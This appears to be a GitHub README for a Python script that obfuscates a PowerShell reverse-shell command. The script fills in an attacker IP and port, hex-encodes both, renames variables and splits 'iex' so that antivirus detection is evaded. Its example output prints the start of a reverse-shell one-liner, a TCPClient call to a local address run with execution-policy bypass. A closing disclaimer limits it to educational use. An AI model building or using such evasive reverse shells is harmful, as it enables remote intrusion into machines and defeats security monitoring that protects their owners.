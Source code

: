 # Obfuscation Script for PowerShell Commands
This Python script takes a PowerShell command, obfuscates it, and replaces certain parts like IP addresses and ports with user-provided values in hexadecimal format. It is designed for users who want to modify PowerShell scripts for testing purposes or to better understand obfuscation techniques.

## Table of Contents

* Overview
* Prerequisites
* Installation
* Usage
* Functions Explanation
* get_user_input()
* obfuscate_script()
* random_string()
* replace_ip_and_port()
* ip_to_hex()
* convert_ips_to_hex()
* port_to_hex()
* convert_ports_to_hex()
* main()
* Example
* Disclaimer

## Overview
This script allows the user to input an IP address and port, then modifies a provided PowerShell script by:

* Obfuscating variable names.
* Replacing occurrences of iex to i''ex to make detection harder.
* Replacing placeholders for IP and port.
* Converting IP addresses and port numbers into hexadecimal format.

## Prerequisites
* Python 3.x
* Basic understanding of regular expressions and PowerShell scripting.

## Installation
Clone the repository and navigate to the project folder:
```bash
git clone https://github.com/your-username/your-repo-name.git
cd your-repo-name
```
## Usage
Run the script using the command:
```bash
python obfuscate_script.py

```
Follow the prompts to input the IP address and port, and the script will display the obfuscated PowerShell command.

## Functions Explanation
* get_user_input()
Purpose: Accepts user input for IP address and port, validating their formats.
## Validation:
+ Ensures the IP address is in the correct format (e.g., 192.168.1.1).
+ Ensures the port number is between 1 and 65535.
+ Raises: ValueError if the input is invalid.

## obfuscate_script()
* Purpose: Obfuscates variable names in the script and alters specific patterns.
## Details:
+ Uses regex to find all variables (excluding $PSHOME) and replaces them with randomly generated names.
+ Replaces occurrences of iex with i''ex to bypass some detection mechanisms.
+ Replaces occurrences of 'PS' with random UUID-like strings.

## random_string()
+ Purpose: Generates a random alphanumeric string of a specified length.
+ Parameters: length (default is 10).
+ Returns: A random string using ascii_letters and digits.

## replace_ip_and_port()
+ Purpose: Replaces placeholders for IP (*LHOST*) and port (*LPORT*) with the user-provided values.
+ Parameters: script, ip, port.

## ip_to_hex()
+ Purpose: Converts an IP address into its hexadecimal representation.
+ Parameters: ip (e.g., 192.168.1.1).
+ Returns: Hexadecimal string representation of the IP address.

## convert_ips_to_hex()
+ Purpose: Finds all IP addresses in the script and converts them to hexadecimal format.
+ Parameters: script.

## port_to_hex()
+ Purpose: Converts a port number to its hexadecimal representation.
+ Parameters: port.
+ Returns: Hexadecimal string of the port number.

## convert_ports_to_hex()
+ Purpose: Finds and converts all port numbers in the script (excluding 65535) to hexadecimal.
+ Parameters: script.

## main()
Purpose: The entry point of the script that coordinates user input, obfuscation, and replacements.

## Workflow:
+ Gets user input for IP and port.
+ Applies obfuscation to the PowerShell script.
+ Replaces placeholders with user inputs.
+ Converts IPs and ports to their hexadecimal representations.
+ Prints the final modified script.

## Example
Here’s an example of how to use the script:
```bash
Enter IP address: 192.168.1.10
Enter port: 8080
```

## Output (truncated for brevity):
```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {-ep bypass -nop $client = New-Object System.Net.Sockets.TCPClient('0xc0a8010a',0x1f90);$stream = ...
```

## Disclaimer
This script is intended for educational purposes only. The use of this script for malicious purposes is strictly prohibited. Always ensure you have permission before testing on any network or system.









